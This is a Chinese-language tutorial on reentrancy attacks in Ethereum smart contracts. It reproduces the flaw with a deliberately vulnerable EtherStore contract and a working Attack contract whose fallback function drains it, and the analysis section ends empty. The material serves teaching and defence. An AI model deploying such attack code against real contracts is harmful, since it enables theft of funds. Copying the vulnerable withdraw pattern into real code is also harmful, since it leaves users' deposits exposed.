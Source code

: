 重入漏洞
==

漏洞介绍
--

重入攻击(Reentrancy Attack)首次出现于以太坊，对应的真实攻击为 The DAO 攻击，此次攻击还导致了原来的以太坊分叉成以太经典(ETC)和现在的以太坊(ETH)。由于项目方采用的转账模型为先给用户发送转账然后才对用户的余额状态进行修改，导致恶意用户可以构造恶意合约，在接受转账的同时再次调用项目方的转账函数。利用这样的方法，导致用户的余额状态一直没有被改变，却能一直提取项目方资金，最终导致项目方资金被耗光。  


漏洞复现
--

1.部署一个包含重入漏洞的合约<code>EtherStore</code>  

    contract EtherStore {
        mapping(address => uint) public balances;

        function deposit() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdraw() public {
            uint bal = balances[msg.sender];
            require(bal > 0);

            (bool sent, ) = msg.sender.call{value: bal}("");
            require(sent, "Failed to send Ether");

            balances[msg.sender] = 0;
        }

        // Helper function to check the balance of this contract
        function getBalance() public view returns (uint) {
            return address(this).balance;
        }
    }
    
2.向<code>EtherStore</code>存入任意ETH，这里存入4个ETH  

![tempsnip](https://user-images.githubusercontent.com/35074461/197673688-924bfb1d-c253-4959-b7a7-b9f4acc3c9e9.png)


3.查看<code>EtherStore</code>余额，为4ETH  

![image](https://user-images.githubusercontent.com/35074461/197672627-c8e42e69-9233-4589-a15f-d722bd759608.png)

4.部署攻击合约<code>Attack</code>，地址填入<code>EtherStore</code>合约地址

    contract Attack {
        EtherStore public etherStore;

        constructor(address _etherStoreAddress) {
            etherStore = EtherStore(_etherStoreAddress);
        }

        // Fallback is called when EtherStore sends Ether to this contract.
        fallback() external payable {
            if (address(etherStore).balance >= 1 ether) {
                etherStore.withdraw();
            }
        }

        function attack() external payable {
            require(msg.value >= 1 ether);
            etherStore.deposit{value: 1 ether}();
            etherStore.withdraw();
        }

        // Helper function to check the balance of this contract
        function getBalance() public view returns (uint) {
            return address(this).balance;
        }
    }
5.使用<code>Attack</code>方法，向<code>EtherStore</code>合约转账1个ETH  

![image](https://user-images.githubusercontent.com/35074461/197674208-c5e45461-c663-4650-8853-58f31a713541.png)  

6.查看<code>Attack</code>合约余额发现为5个ETH

![image](https://user-images.githubusercontent.com/35074461/197674478-73777950-7047-4ac9-b8ed-75d520101978.png)

漏洞分析
--

